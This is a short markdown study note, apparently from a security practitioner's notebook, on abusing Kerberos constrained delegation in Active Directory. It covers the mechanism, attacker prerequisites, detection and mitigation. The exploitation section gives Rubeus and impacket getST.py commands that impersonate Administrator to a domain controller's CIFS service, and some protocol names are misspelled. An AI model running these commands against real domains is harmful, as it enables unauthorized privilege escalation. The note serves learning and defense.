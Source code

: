 ```yaml
---
tags:
  - AD
  - attack
date: 2023-09-1
---
```

- [[Constrained Delegation]] lets services impersonate users to specific services.
- Defined in the `msDS-AllowedToDelegate` attribute.
# How It Works

- User authenticates to service A.
- Service A requests a TGS to Service B on behalf of user.
	- done via `S4U2Self` and `S42UProxy`.
- DC checks service A is allowed to delegate to service B.
# Attack

Attackers must:

- have control over an account/computer configured for constrained delegation.
- object must be trusted to delegate to sensitive SPN.
- domain joined machine or user account with `SeTcbPrivilege` (trusted for delegation).
# Exploitation

- Windows:
	- create TGT as victim user:
		- `Rubeus.exe tgtdeleg`
	- request service ticket on behalf of victim:
		- `Rubeus.exe s4u /user:serviceuser /rc4:<hash> /impersonateuser:Administrator /msdsspn:cifs/dc.domain.local /ptt`
- Linux:
	- `getST.py -spn cifs/dc.domain.local -impersonate Administrator -hashes :<NTLM> domain/user`
# Detection

- Check for:
	- `Event ID 4769`  with `S42USelf` or `S4U2Proxy` indicators.
	- tickets issued for high priv users to low priv computers.
- Audit accounts with:
	- `Get-ADUser -Filter * -Properties msDS-AllowedToDelegateTo | Where { $_.'msDS-AllowedToDelegateTo' }`
# Mitigation

- Apply Principle of Least Privilege to delegation rights
- Limit what services are allowed in msDS-AllowedToDelegateTo
- Use [[Resource Based Delegation|Resource-Based Constrained Delegation (RBCD)]] instead, where possible
- Monitor for abuse using:
	- Kerberos auditing
	- SIEM alerting on unusual S4U2Proxy combinations